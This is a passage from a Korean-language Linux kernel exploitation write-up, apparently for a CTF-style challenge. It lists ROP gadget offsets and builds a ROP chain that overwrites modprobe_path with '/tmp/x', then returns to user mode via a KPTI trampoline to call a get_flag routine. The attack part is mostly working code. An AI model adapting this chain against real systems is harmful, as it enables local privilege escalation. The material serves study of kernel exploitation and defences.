 ```python
    
if __name__ == '__main__':
    tream_data("gadgets", 0xffffffff81000000, 0xffffffff82202188)
```

```bash
ropper -f vmlinux > gadgets
python3 tream_data.py
```

해당 코드는 가젯 중에서 커널 베이스인 `_text` 와 그 끝부분인 `_etext` 사이의 가젯만 가져 올 수 있게 하는 과정이다. 

**물론 이 영역에 있다는 모든 가젯이 유효한 가젯인것은 아니며, 실제 디버깅을 통해 유효한 가젯인지 확인해봐야 한다.**

나는 `pop rbx`, `pop rax`, `mov dword ptr[rbx], rax` 가젯을 통해 `modeprobe_path` 를 덮어쓸 것이다. 

```c
    // 0xffffffff81094167: pop rbx; ret;  
    // 0xffffffff814940e3: mov dword ptr [rbx], eax; ret; 
    // 0xffffffff811ae94c: pop rax; ret; 

    uint64_t mov_dwordptr_rbx_eax__ret = kernel_base + 0x4940e3;
    uint64_t pop_rax__ret = kernel_base + 0x1ae94c;
    uint64_t pop_rbx__ret = kernel_base + 0x94167;
    
    // overwrite moprobe_path
    fake_stack[stack_target] = pop_rbx__ret;
    fake_stack[stack_target + 1] = modprobe_path;
    fake_stack[stack_target + 2] = pop_rax__ret;
    fake_stack[stack_target + 3] = 0x706d742f;
    fake_stack[stack_target + 4] = mov_dwordptr_rbx_eax__ret;
    fake_stack[stack_target + 5] = pop_rbx__ret;
    fake_stack[stack_target + 6] = modprobe_path + 4;
    fake_stack[stack_target + 7] = pop_rax__ret;
    fake_stack[stack_target + 8] = 0x782f;
    fake_stack[stack_target + 9] = mov_dwordptr_rbx_eax__ret;
```

## **6. KPTI trampoline**

이제 `modeprobe_path` 를 덮어 썼으니 유저 모드로 전환 후 다음 과정을 진행하자. 

앞서 확인했듯이, 해당 커널에는 `KPTI`보호기법이 적용되어있다. 

따라서 유저 모드로 전환 하기 위해 **[KPTI trampoline](/study/linux_kernel/basic/kpti_trampoline)** 기법을 쓸것이다. 

```c
    // return to usermode with KPTI trampoline
    fake_stack[stack_target + 10] = kpti_trampoline;
    fake_stack[stack_target + 11] = 0; // dummy 1
    fake_stack[stack_target + 12] = 0; // dummy 2
    fake_stack[stack_target + 13] = (uint64_t)&get_flag; // user_ip
    fake_stack[stack_target + 14] = user_cs;
    fake_stack[stack_target + 15] = user_rflags;
    fake_stack[stack_target + 16] = user_sp;
    fake_stack[stack_target + 17] = user_ss;
```
